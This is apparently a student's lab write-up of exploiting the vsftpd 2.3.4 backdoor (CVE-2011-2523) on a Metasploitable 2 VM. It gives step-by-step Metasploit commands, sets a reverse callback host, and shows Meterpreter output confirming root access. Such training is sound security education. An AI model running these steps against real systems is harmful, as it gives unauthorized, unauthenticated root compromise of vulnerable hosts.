

# Exploitation Write-up — vsftpd 2.3.4 Backdoor

**Student:** Aazib Ali
**Target:** 192.168.88.134 (Metasploitable 2)
**Attacker:** 192.168.88.133 (Kali Linux)
**Date:** 7 November 2026

This write-up documents the step-by-step exploitation of the vsftpd 2.3.4
backdoor (CVE-2011-2523) using the Metasploit Framework, converting the
previously documented vulnerability finding into a confirmed, working
compromise.

## Step 1: Launch Metasploit

msfconsole -q

**Explanation:** Starts the Metasploit console in quiet mode, loading the
module database and connecting to its local datastore.

## Step 2: Search for a matching exploit module

search vsftpd 2.3.4

**Result:** `exploit/unix/ftp/vsftpd_234_backdoor`, rated **excellent**
reliability.
**Explanation:** Metasploit's module database matched the known vsftpd
2.3.4 backdoor directly to the service version identified during Day 2
scanning.

## Step 3: Select the module and review required options

use 0
show options

**Result:** `RHOSTS` (target) and `RPORT` (21, default) required.
**Explanation:** `show options` lists every parameter the module needs
before it can run.

## Step 4: Configure the target and callback address

set RHOSTS 192.168.88.134
set LHOST 192.168.88.133

**Explanation:** `RHOSTS` is the target being attacked. `LHOST` is the
attacker's own address, which the target's backdoor shell connects back
to once triggered. The exploit initially failed with an `OptionValidateError`
on LHOST until this was set — a direct illustration of the handout's point
that an unreachable LHOST is the most common reason a working exploit
produces no session.

## Step 5: Run the exploit

exploit

**Result:**

] Started reverse TCP handler on 192.168.88.133:4444
[] 192.168.88.134:21 - Running automatic check (“set AutoCheck false” to disable)
[] 192.168.88.134:21 - FTP banner hints its vulnerable: 220 (vsFTPd 2.3.4)
[+] 192.168.88.134:21 - The target appears to be vulnerable. vsftpd 2.3.4 banner detected; backdoor may be present
[+] 192.168.88.134:21 - Backdoor has been spawned!
[] Meterpreter session 1 opened (192.168.88.133:4444 -> 192.168.88.134:39725) at 2026-11-07 13:56:02 -0500

**Explanation:** Metasploit sent the triggering FTP username, the backdoor
opened a shell listener on port 6200, and Metasploit automatically
connected to it and upgraded the connection into a full **Meterpreter**
session — a more capable shell than the basic command shell described in
the course handout.

## Step 6: Confirm the level of access obtained

meterpreter > getuid

**Result:**

Server username: root

To additionally confirm with standard Linux commands, a system shell was
dropped into from within Meterpreter:

meterpreter > shell
Process 5713 created.
Channel 1 created.
whoami
root
id
uid=0(root) gid=0(root)

**Explanation:** Both `getuid` (Meterpreter-native) and `whoami`/`id`
(standard Linux, run via `shell`) independently confirm the exploit
granted **full root-level access** to the target, with no authentication
of any kind.

## Summary

This exploitation confirms, beyond the earlier NSE-script-only evidence
from Day 2, that CVE-2011-2523 grants an unauthenticated attacker a
working, interactive root shell on the target with no credentials
required. The exploit required only the target's IP address (`RHOSTS`)
and the attacker's own reachable IP (`LHOST`) — no further information
was needed, consistent with the finding's CVSS vector of
`AV:N/AC:L/PR:N/UI:N`, which describes an attack that is network-reachable,
low-complexity, and requires no privileges or user interaction.
